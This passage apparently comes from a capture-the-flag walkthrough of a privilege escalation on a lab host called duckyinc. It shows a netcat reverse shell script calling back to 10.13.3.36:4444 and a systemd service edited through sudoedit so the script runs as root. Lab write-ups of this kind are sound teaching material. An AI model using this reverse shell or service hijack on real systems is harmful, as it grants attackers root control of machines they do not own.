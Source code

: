 I looked at the service. 

```
server-admin@duckyinc:~$ cat /etc/systemd/system/duckyinc.service
[Unit]
Description=Gunicorn instance to serve DuckyInc Webapp
After=network.target

[Service]
User=flask-app
Group=www-data
WorkingDirectory=/var/www/duckyinc
ExecStart=/usr/local/bin/gunicorn --workers 3 --bind=unix:/var/www/duckyinc/duckyinc.sock --timeout 60 -m 007 app:app
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s TERM $MAINPID

[Install]
WantedBy=multi-user.target
```

It was launching the [Gunicorn](https://gunicorn.org/) web server. It was used to served the web site.  I decided to use this service to get a reverse shell. 

I created a file that would be executed by the service start and create the connection to my machine. 

```bash
server-admin@duckyinc:~$ chmod +x /home/server-admin/service

server-admin@duckyinc:~$ cat /home/server-admin/service 
#!/usr/bin/env bash

mkfifo /tmp/kirxhbg; nc 10.13.3.36 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg
```
 
 Then I modified the service with `sudoedit` to be executed as root and run my file.

```bash
server-admin@duckyinc:~$ sudoedit /etc/systemd/system/duckyinc.service
server-admin@duckyinc:~$ cat /etc/systemd/system/duckyinc.service
[Unit]
Description=Gunicorn instance to serve DuckyInc Webapp
After=network.target

[Service]
#User=flask-app
User=root
Group=www-data
WorkingDirectory=/var/www/duckyinc
#ExecStart=/usr/local/bin/gunicorn --workers 3 --bind=unix:/var/www/duckyinc/duckyinc.sock --timeout 60 -m 007 app:app
ExecStart=/home/server-admin/service
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s TERM $MAINPID

[Install]
WantedBy=multi-user.target
```
